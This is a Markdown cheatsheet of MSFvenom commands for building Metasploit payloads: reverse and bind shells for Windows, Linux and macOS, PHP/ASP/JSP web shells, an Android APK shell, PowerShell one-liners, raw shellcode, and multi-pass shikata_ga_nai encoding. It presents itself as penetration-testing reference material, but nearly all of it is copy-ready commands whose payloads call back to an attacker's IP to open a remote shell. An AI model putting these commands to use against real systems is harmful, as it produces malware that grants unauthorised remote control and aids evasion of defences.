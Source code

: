 # MSFvenom Comprehensive Command Cheatsheet

MSFvenom is a powerful tool in the Metasploit Framework used to generate various types of payloads for penetration testing and security research. This cheatsheet provides a comprehensive list of commonly used MSFvenom commands, organized by payload type and use case, for easy navigation.

---

## Table of Contents

1. [Basic Syntax](#basic-syntax)
2. [Payload Types](#payload-types)
    - [Windows Payloads](#windows-payloads)
    - [Linux Payloads](#linux-payloads)
    - [Mac OS X Payloads](#mac-os-x-payloads)
    - [Web Payloads (PHP, ASP, JSP)](#web-payloads)
    - [Android Payloads](#android-payloads)
3. [Encoders & Formats](#encoders--formats)
4. [Shellcode Generation](#shellcode-generation)
5. [Useful Tips](#useful-tips)
6. [References](#references)

---

## Basic Syntax

```sh
msfvenom -p <PAYLOAD> LHOST=<ATTACKER_IP> LPORT=<PORT> -f <FORMAT> -o <OUTPUT_FILE>
```
- `-p` : Payload to use  
- `LHOST` : Attacker's IP address  
- `LPORT` : Listening port  
- `-f` : Output format (e.g., exe, elf, php, raw, etc.)  
- `-o` : Output file  

---

## Payload Types

### Windows Payloads

#### Reverse Shell
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe
```

#### Bind Shell
```sh
msfvenom -p windows/meterpreter/bind_tcp RHOST=<TARGET_IP> LPORT=<PORT> -f exe -o bind_shell.exe
```

#### PowerShell Payload
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f psh-cmd
```

#### Staged and Stageless
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o staged.exe
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o stageless.exe
```

---

### Linux Payloads

#### Reverse Shell
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o revshell.elf
```

#### Bind Shell
```sh
msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=<PORT> -f elf -o bind_shell.elf
```

#### Command Injection
```sh
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw
```

---

### Mac OS X Payloads

#### Reverse Shell
```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho -o shell.macho
```

---

### Web Payloads

#### PHP
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o shell.php
```

#### ASP
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp -o shell.asp
```

#### JSP
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o shell.jsp
```

---

### Android Payloads

#### APK Reverse Shell
```sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -o app.apk
```

---

## Encoders & Formats

#### List All Payloads
```sh
msfvenom --list payloads
```

#### List All Encoders
```sh
msfvenom --list encoders
```

#### List All Formats
```sh
msfvenom --list formats
```

#### Encode Payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
```
- `-e` : Encoder to use
- `-i` : Number of iterations

---

## Shellcode Generation

#### Generate Shellcode (C format)
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c
```

#### Generate Shellcode (Hex format)
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hex
```

---

## Useful Tips

- **View payload options:**
    ```sh
    msfvenom -p <PAYLOAD> --list-options
    ```
- **Remove null bytes:**
    ```sh
    msfvenom ... -b "\x00"
    ```
- **Multiple output formats:**  
    For example, EXE, ELF, APK, ASP, JSP, PHP, WAR, etc.

---

## References

- [Metasploit Unleashed - MSFvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
- [MSFvenom Payload List](https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit)
- [Metasploit Payloads Documentation](https://docs.metasploit.com/docs/using-metasploit/basics/payloads.html)

---

**Happy Hacking!**
